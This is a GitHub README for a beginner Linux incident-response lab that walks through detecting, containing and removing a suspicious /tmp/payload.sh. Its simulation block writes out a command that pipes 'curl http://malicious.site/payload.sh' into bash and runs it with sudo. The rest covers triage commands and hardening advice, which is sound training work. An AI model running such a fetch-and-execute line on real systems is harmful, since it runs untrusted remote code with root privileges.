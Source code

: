 # 🐧🚨 Day 12 – Suspicious Bash Script Execution (Linux IR)

![GitHub last commit](https://img.shields.io/github/last-commit/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
![GitHub repo size](https://img.shields.io/github/repo-size/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/BecomingCyber/suspicious-bash-lab-day12?style=flat-square)
[![LinkedIn](https://img.shields.io/badge/-LinkedIn-0072b1?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/mozella-mccoy-flowers)


This hands-on lab simulates and investigates a suspicious bash script (`payload.sh`) executed on a Linux system. Students walk through key phases of the incident response lifecycle using real terminal-based investigation techniques.

---

## 🎯 Objective

To detect, analyze, and respond to a suspicious script placed in the `/tmp` directory, simulating a basic compromise scenario. This exercise strengthens skills in forensic triage, process analysis, and threat containment on Linux.

---

## 📌 Scenario

Your monitoring tool detects a suspicious file `/tmp/payload.sh` attempting to connect to an unknown external domain. You are tasked with investigating this incident using standard Linux command-line tools.

---

## 🛠️ Lab Setup

- **OS Tested:** Kali Linux / Ubuntu 20.04+
- **Tools Required:** `bash`, `curl`, `ps`, `grep`, `find`, `crontab`, `nano`, `auditd` (optional)
- **Permissions:** `sudo` required

---

## 🧪 Simulation Commands

```bash
# Simulate attack script creation
echo -e '#!/bin/bash\ncurl http://malicious.site/payload.sh | bash' | sudo tee /tmp/payload.sh > /dev/null
sudo chmod +x /tmp/payload.sh

# Simulate script execution
sudo bash /tmp/payload.sh &
```

## 🔍 Investigation Steps
🔹 Phase 1: Detection & Analysis
```bash
ps aux | grep '[c]url'                 # Check for active curl processes
sudo find /tmp -name "*.sh"           # Locate suspicious scripts
grep payload.sh ~/.bash_history       # Look for executed command in history
history | grep payload                # Alternate history check
crontab -l                            # Check user crontab
sudo grep -r "payload.sh" /etc/cron*  # Look for persistence via cron
```

🔹 Phase 2: Containment & Eradication
```bash
sudo pkill curl                       # Kill the process
sudo rm -f /tmp/payload.sh           # Delete the script
crontab -e                            # Inspect & clean crontab
sudo systemctl restart cron          # Restart affected services
```
📝 Key Findings

| Aspect             | Result                                                   |
|--------------------|----------------------------------------------------------|
| Script Location    | `/tmp/payload.sh`                                        |
| Behavior           | Used `curl` to download and execute external code        |
| Execution Evidence | Found in `.bash_history`                                 |
| Persistence        | No `crontab` entries or scheduled tasks detected         |
| Action Taken       | Script removed, process killed                           |

## 🔍 Observations & Learnings

- Detected a suspicious script (`/tmp/payload.sh`) attempting to download and execute a remote payload using `curl`.
- Observed how malicious scripts often abuse writable directories like `/tmp` for staging and execution.
- Learned to investigate incidents using key Linux tools such as `ps`, `grep`, `find`, `crontab`, and `.bash_history`.
- Verified there was **no persistence** via user or system crontab.
- Practiced proper incident response steps: detect → analyze → contain → eradicate → document.
- Reinforced the importance of:
  - Mounting `/tmp` with `noexec`
  - Monitoring logs and file changes (AIDE)
  - Educating users on script execution risks
- This exercise provided a realistic, beginner-friendly simulation of Linux incident response — focusing on command-line triage skills essential for SOC analysts.
